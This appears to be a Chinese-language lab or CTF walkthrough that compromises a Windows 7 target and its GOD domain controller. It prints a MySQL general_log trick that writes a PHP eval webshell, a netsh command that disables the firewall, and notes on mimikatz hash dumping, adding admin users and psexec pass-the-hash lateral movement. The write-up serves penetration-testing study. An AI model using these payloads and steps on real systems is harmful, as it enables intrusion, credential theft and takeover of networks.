

## win7

首先主机发现


确定了靶机的ip：172.20.10.151

直接访问，确定就是这个ip了


扫一下路径，有phpmyadmin


进去是phpMyadmin登录界面，随手来一个弱口令root root，成功登录


然后就是用phpMyadmin的洞去getshell，常见的是into outfile导出木马，正好给了phpinfo，有绝对路径，尝试一波


报错，说明这个限制了写文件


尝试记录日志去getshell

```
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/WWW/shell.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

成功写入


然后蚁剑链接，成功getshell


随便翻翻，找到了第一个flag


然后上msf的马，准备内网渗透


是64位系统，找个系统进程切过去


查看一下权限，已经是system权限了，直接load mimikatz


查看密码，嗯，应该是没恢复镜像的锅，抓不到明文密码，只能抓到hash


新建一个用户吧，然后加到administrator里


尝试登录3389，连接失败，关一下防火墙

```
netsh advfirewall set allprofiles state off
```

然后再测试3389是否通，发现通了

```
netstat -ano | find "3389"
```


rdesktop 连一下，输入账号密码就可以成功进去了



到此第一个win7应该是结束了

## 内网渗透

看一下域，有一个GOD域


添加路由，然后扫网段


跳板机的ip是192.168.52.143，剩下两个的ip 192.168.52.138 和 192.168.52.141 应该是内网机器的了

先上个代理


改一下proxychains，文件路径/etc/proxychains.conf


nmap开扫，没扫出来，nmap关闭（后来发现socks4a就没挂上hhh

试一下msf自己的扫描，扫出来一些端口


同理扫描192.168.52.138，发现也开放了445端口

经过漫长的尝试，发现这个可以打138的机器，直接传递hash（参考https://xz.aliyun.com/t/6600

```
exploit/windows/smb/psexec
```

配置好各种参数，如下


运行，成功获取shell


开启远程桌面


抓hash


使用smart_hash，可以抓到域内全部hash，应该是域控了


然后先找一下flag，在C:\Users\administrator\Desktop\flag3.png，下载


查看一下，嗯，果然是域控


挂一下代理，这里使用ew，主机


登录远程桌面，由于挂代理会比较慢，等一会就好了


然后去看剩下的域内主机，同样的操作，就很简单了


看一下flag，漫长的寻找，在C:\Documents and Settings\Administrator.GOD\Desktop\flag2.png里


添加用户，远程连接，这都常规操作了（这里懒了登录的实体机hhh


